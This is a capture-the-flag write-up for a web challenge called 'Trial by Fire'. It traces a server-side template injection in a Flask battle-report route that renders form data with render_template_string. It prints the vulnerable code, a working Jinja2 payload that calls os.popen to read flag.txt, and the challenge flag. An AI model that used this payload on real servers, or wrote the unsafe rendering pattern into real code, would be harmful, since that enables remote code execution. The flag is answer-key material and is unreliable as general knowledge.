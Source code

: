 # 🔥 Trial by Fire - Writeup

**Category:** Web  
**Points:** 50  
**Description:**  
> Deep within the Flame Peaks, a legendary Fire Drake tests the strength and resolve of those who seek the Emberstone. Defeat is expected—but perhaps victory lies not in brute force, but in clever trickery.

---

## 🧩 Reconnaissance

Landing on the page, you’re greeted with a retro-style battle interface. After choosing a warrior name, you enter a turn-based combat scenario against a Fire Drake with **1337 HP**.

Fighting the dragon normally proves fruitless—the damage dealt is minimal and defeat is inevitable.

However, viewing the **page source** reveals a suspicious hint:

```html
Can you read the runes? Perhaps {{ 7 * 7 }} is the key. <!-- SSTI -->

The output shows 49 in the rendered page, confirming a Server-Side Template Injection (SSTI) vulnerability.
🔍 Application Behavior

Upon losing a battle, you’re shown a battle report summarizing your stats and outcome. Intercepting the request reveals that data is POSTed to /battle-report.

A closer look at the source shows this route renders user-supplied data directly:
```python
@web.route('/battle-report', methods=['POST'])
def battle_report():
    ...
    REPORT_TEMPLATE = f""" 
        ...
        <p>🗡️ Damage Dealt: <span class="nes-text is-success">{stats['damage_dealt']}</span></p>
        ...
    """
    return render_template_string(REPORT_TEMPLATE)
```

Because render_template_string is used on raw form data, and the values aren’t sanitized, this is a textbook SSTI vulnerability.
🛠️ Exploitation

We can inject Python expressions via the damage_dealt field (or others) to execute code server-side.

Intercept the POST request to /battle-report after a battle using Burp Suite (or your preferred tool), and modify it like so:

```
POST /battle-report HTTP/1.1
Host: target

damage_dealt={{config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read()}}&
damage_taken=100&
spells_cast=2&
turns_survived=3&
outcome=defeat&
battle_duration=18.116
```

    Note: Use + instead of spaces (e.g., cat+flag.txt) if the application filters certain characters.

Upon submitting the modified request, the flag will be rendered directly into the battle report page under “Damage Dealt”.
🏁 Flag

Flag:

```HTB{Fl4m3_P34ks_Tr14l_Burn5_Br1ght_cce96f85ad54b396cdee745fbe91bf5b}```

